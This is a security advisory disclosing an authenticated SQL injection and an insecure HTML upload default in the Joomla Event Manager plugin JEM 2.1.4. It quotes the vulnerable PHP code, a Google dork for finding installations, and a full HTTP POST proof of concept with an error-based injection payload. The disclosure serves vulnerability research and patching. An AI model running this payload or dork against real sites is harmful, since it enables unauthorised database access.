 ```yaml
---
title:  "Multiple vulnerabilities in Joomla Event Manager 2.1.4"
date:   2017-08-10 20:00:00
preview: "A couple of security issues in Joomla Event Manager plugin, JEM 2.1.4."
---
```


* _Author_: Martino Sani
* _Release date_: 2015-08-12
* _Vendor Homepage_: www.joomlaeventmanager.net
* _Software Link_: www.joomlaeventmanager.net/download?download=50:jem-2-1-4-stable
* _Version_: 2.1.4
* _Google Dork_: inurl:option=com_jem
* _Exploit-DB_: www.exploit-db.com/exploits/37767/
* _CVE_: -

I identified some vulnerabilities and insecure settings in Joomla Event Manager plugin, JEM 2.1.4. A malicious user could use these issues to access back-end database data and attack application clients. Attacker must have valid authentication credentials to exploit these issues.

## SQL Injection

Authenticated user can execute arbitrary SQL queries via SQL injection in the functionality that allows to publish/unpublish an event. Vulnerable resource is *index.php?option=com_jem&view=myevents* and the injection point is *cid* parameter.

```
// sites/models/myevents.php
function publish($cid = array(), $publish = 1)
{
    if (is_array($cid) && count($cid)) {
        $cids = implode(',', $cid);

	$query = 'UPDATE #__jem_events'
               . ' SET published = '. (int) $publish
               . ' WHERE id IN ('. $cids .')'
               . ' AND (checked_out = 0 OR (checked_out = ' .$userid. '))';

        $this->_db->setQuery($query);
    }
}
```

POC
```
POST /joomla3.4.3/index.php?option=com_jem&view=myevents&Itemid=151 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Cookie: 55cfbe406ffe44b0159d9a943820d207=gauuoq0rqlakkltqj4dd1mpd76; jpanesliders_stat-pane=0; jpanesliders_event-sliders-10=2; d6300469df4ad94ccc019d02bc74f647=4339lu3g2tn4lhg2lvgd8ft263
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 352

filter=1&filter_search=&limit=10&cid%5B%5D=1,2)%20AND%20(SELECT%206959%20FROM(SELECT%20COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.TABLES%20GROUP%20BY%20x)a)%20AND%20(1577=1577&filter_order=a.dates&filter_order_Dir=&enableemailaddress=0&boxchecked=1&task=myevents.unpublish&option=com_jem&5c597c6e06b1d6627024f147b562ecaf=1
```

## Insecure File Upload

Default JEM settings allow to upload HTML/HTM files as event's attachment. An authenticated attacker could upload malicious HTML/HTM files with malicious code (e.g. Javascript). These attachments could be reachable on *<<website>>/media/com_jem/attachments/event/event[id]/* or downloaded and executed locally by the victim's browser.

Attachments process is handled by */site/classes/attachments.class.php* file.

File types allowed by default are in the */admin/sql/install.mysql.utf.sql* file.

## Timeline

* 2015-08-01: Vendor notification.
* 2015-08-12: Vendor fixes the issues in the development branch.
	
The author is not responsible for the misuse of the information provided in this advisory.